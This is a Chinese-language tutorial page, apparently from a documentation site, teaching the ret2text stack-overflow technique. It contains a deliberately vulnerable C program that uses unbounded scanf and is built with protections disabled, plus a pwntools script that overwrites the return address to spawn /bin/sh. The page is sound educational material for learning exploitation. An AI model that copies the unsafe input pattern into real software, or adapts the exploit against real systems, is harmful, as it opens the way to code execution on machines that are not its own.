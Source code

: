 ```yaml
---
title: "ret2text"
description: "Doks is a Hugo theme for building secure, fast, and SEO-ready documentation websites, which you can easily update and customize."
lead: "Doks is a Hugo theme for building secure, fast, and SEO-ready documentation websites, which you can easily update and customize."
date: 2020-10-06T08:48:57+00:00
lastmod: 2020-10-06T08:48:57+00:00
draft: false
images: []
menu:
  docs:
    parent: "stackoverflow"
weight: 1
toc: true
---
```


## 0x01 介绍

既然溢出可以覆盖局部变量，即利用栈三大功能之一保存局部变量，那么也可以利用栈三大功能之一保存函数返回后的地址，我们可以溢出覆盖函数返回后的地址为任意我们想要它返回执行的地方，从而实现getshell

![image-20230328233440240](./image-20230328233440240.png)

举一个例子来说

```c
#include<stdio.h>
#include<stdlib.h>

void getshell() {    // getshell函数
    system("/bin/sh");
}

void run(){    // 写run函数的目的是为了简化，因为现在32位main函数需要绕过ecx
    char buf[0x10];    /* 局部变量 */
    printf("input: ");
    scanf("%s", buf);
}

int main(){
    run();
    return 0;
}
// gcc ret2text.c -o ret2text -m32 -fno-pic -no-pie -fno-stack-protector
```

按照正常的程序流程来说，main函数应该会返回执行\_libc\_start\_main中的指令，但是scanf的%s格式化控制符是可以无字符数限制输入造成栈溢出的，这样我们就可以想办法覆盖main函数的函数返回地址为程序中getshell函数的地址，从而执行 `system("/bin/sh");`
首先需要的是确定getshell函数的位置，这里可以用objdump之类的工具来查看

![image-20230328233451110](./image-20230328233451110.png)

然后只需要将 `0x804849b` 写入函数返回地址即可，然后就是找buf变量到函数返回地址的偏移量

![image-20230328233457204](./image-20230328233457204.png)

可以从main函数看出buf位于 `ebp-0x18` ，那么偏移量 = 0x18 + 4
写一个python脚本来进行实现攻击，并gdb来看看效果

```python
from pwn import*
context.terminal = ['tmux','splitw', '-h']
o = process("./ret2text")
payload = 'a'*(0x18 + 4) + p32(0x804849b)
gdb.attach(o)
o.sendline(payload)
o.interactive()
```

在进行覆盖前栈内容为

![image-20230328233506471](./image-20230328233506471.png)

覆盖后将变为

![image-20230328233523087](./image-20230328233523087.png)

运行到ret看它的跳转方向

![image-20230328233532790](./image-20230328233532790.png)

这个时候esp指向了getshell函数，即跳转去执行getshell函数

![image-20230328233538372](./image-20230328233538372.png)

继续执行

![image-20230328233543851](./image-20230328233543851.png)
